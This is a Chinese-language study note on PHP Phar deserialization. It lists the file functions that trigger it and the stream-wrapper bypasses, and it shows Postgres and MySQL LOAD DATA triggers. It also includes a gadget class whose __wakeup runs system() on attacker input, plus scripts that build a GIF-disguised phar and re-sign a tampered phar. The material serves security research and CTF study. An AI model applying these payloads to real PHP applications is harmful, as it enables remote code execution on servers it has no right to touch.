

# 文章
[浅析Phar反序列化 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/305292.html)<br />[Phar与Stream Wrapper造成PHP RCE的深入挖掘 - zsx’s Blog](https://blog.zsxsoft.com/post/38)<br />[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)<br />[SUCTF 2019 出题笔记 & phar 反序列化的一些拓展 - 先知社区](https://xz.aliyun.com/t/6057)
# 能触发Phar反序列的一些函数

- fileatime / filectime / filemtime
- stat / fileinode / fileowner / filegroup / fileperms
- file / file_get_contents / readfile / fopen`
- file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable
- parse_ini_file
- unlink
- copy
- finfo_file / finfo_buffer / mime_content_type
#### exif

- exif_thumbnail
- exif_imagetype
#### gd

- imageloadfont
- imagecreatefrom***
#### hash

- hash_hmac_file
- hash_file
- hash_update_file
- md5_file
- sha1_file
#### file / url

- get_meta_tags
- get_headers
#### standard

- getimagesize
- getimagesizefromstring
#### zip   Bzip / Gzip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
#### phar://不能出现在头几个字符的绕过
可以通过伪协议进行绕过
```powershell
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar:///home/sx/test.phar/test.txt
```
#### Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
当然，pgsqlCopyToFile和pg_trace同样也是能使用的，只是它们需要开启phar的写功能。
#### MySQL
还有什么骚操作呢？<br />……MySQL？<br />走你！<br />我们注意到，LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper. 让我们测试一下。
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```
再配置一下mysqld。
```
[mysqld]
local-infile=1
secure_file_priv=""
```
……然后，走你！<br />

# 脚本
```php
<?php
  class User {
  Public $name;
  }

@unlink("test.phar");
$phar = new Phar("test.phar"); //后缀名必须为phar，生成后可以随意修改
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new User();   
$o->name = 'JrXnm';
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
rename("test.phar", "test.gif");
```
```php
from hashlib import sha1
f = open('./test.gif', 'rb').read() # 修改内容后的phar文件
s = f[:-28] # 获取要签名的数据
print(s)
h = f[-8:] # 获取签名类型以及GBMB标识
print(h)
newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
open('datou.gif', 'wb').write(newf) # 写入新文件
```
